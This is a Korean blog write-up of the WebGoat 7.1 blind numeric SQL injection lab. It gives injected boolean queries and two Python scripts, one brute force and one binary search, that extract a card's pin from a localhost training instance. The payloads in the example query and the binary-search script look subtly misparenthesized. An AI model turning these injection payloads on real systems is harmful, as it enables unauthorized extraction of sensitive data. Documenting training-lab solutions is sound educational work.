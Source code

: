 ```yaml
---
title: "Webgoat7.1 Blind Numberic SQL Injection"
layout: post
date: 2020-04-22
image: /assets/images/mark-img01.png
headerImage: false
tag:
- sql
- blind
- injection
- exploit
category: blog
author: pil9

---
```

 
![problem]({{site.url}}/images/blind_p.png){: class="center"}
<figcaption class="caption">문제</figcaption>

  
pins DB 테이블에서 cc_number가 '1111222233334444'인 pin 값을 찾는 문제입니다.

문제에서 사전에 주어진 정보는 테이블명(pins), 필드명(cc_number), 101 입니다.

![problem]({{site.url}}/images/p2.png){: class="center"}
<figcaption class="caption">유효 pin값은 101부터</figcaption>

위와 같이 쿼리에 논리식 대입이 가능하므로 출력되는 결과값을 기준으로 pin 값을 유추해 내면 됩니다.  

결과값으로 'Invalid account number'가 출력되면 조건식이 맞지 않는 것을 알 수 있습니다.

가장 먼저 pin값 자리수를 유추해야 하므로 100, 1000, 10000 등의 단위로 아래의 쿼리값을 반복해서 확인합니다.

<pre><code class = "language-sql">
예시)
101 and (select pin from pins where cc_number = '1111222233334444' > 1000)
</code></pre>

pin 값이 1000보다 클 경우에는 'Account number is valid'
10000보다 클 경우에는 'Invalid account number' 가 출력되므로

조건식을 만족하는 pin 값의 범위는 1000 < pin < 10000 임을 유추할 수 있습니다.

약 9천개의 쿼리값을 다 날려볼 수는 없으므로 아래와 같은 exploit 코드를 작성하여 flag 값을 얻을 수 있습니다.

<pre><code class = "language-python">
import requests

cookie = {'JSESSIONID':"C665F3601E7F6DE3D7F0FBB35EDE83C5"}
url = "http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100"
attack = "101 and (select pin from pins where cc_number='1111222233334444')="

for i in range(1000,10000):

    params = {'account_number':attack+str(i)}

    r = requests.post(url,data=params,cookies=cookie)
    if 'Account number is valid.' in r.text:

        print ('Account Number:',i)
        exit()
</code></pre>

<pre><code class="language-python">
//결과 값
Account Number: 2364
</code></pre>

추가로 flag값의 범위가 클 경우 위와 같은 코드로는 시간이 오래 걸리므로 아래 코드와 같이 이진 탐색등의 탐색 알고리즘을 사용하여 작성하시면 됩니다.

<pre><code class="language-python">
import requests

# 이진 탐색 알고리즘을 통한 flag 탐색 함수
def search(pin_data):
    start=0
    end = len(pin_data) -1
    while start <= end:
        mid = (start + end) // 2

        # 중간 값이 한개이면 flag
        if (end-start) == 2:
            return mid
        data={'account_number':"101 and (select pin from pins where cc_number = '1111222233334444' >=" +
        str(mid) + ")"}
        res=s.post(url, data=data)
        
        if 'Account number is valid' in res.text:
            start = mid + 1
        else:
            end = mid -1

# 로그인 세션 처리는 첫번째 코드로 해도 상관없음
login_url = 'http://localhost:8080/WebGoat/j_spring_security_check'
login_data = {
    'username' : 'guest','password' : 'guest'
}
url = 'http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100'

with requests.Session() as s:
    # 로그인 및 세션 저장(as s)
    res = s.post(login_url, data=login_data, verify=False, allow_redirects=False)
    
    # pin 초기 값 set
    pin=1
    
    # pin 자릿수 탐색
    for i in range(10):
        data={'account_number':"101 and (select pin from pins where cc_number = '1111222233334444' >=" +
        str(pin) + ")"}
        res=s.post(url, data=data)
        if 'Invalid account number' in res.text:
            pin=int(pin/10)
            break
        pin=int(pin*10)
    
    # 이진 탐색을 위한 리스트 생성
    li = [i for i in range(pin,pin*10+1)]
    
    # 정상 pin 값 서칭
    flag = search(li)

    print("AC NUMBER :",flag)
                

</code></pre>

<pre><code class="language-python">
//결과값
AC Number: 2364
</code></pre>




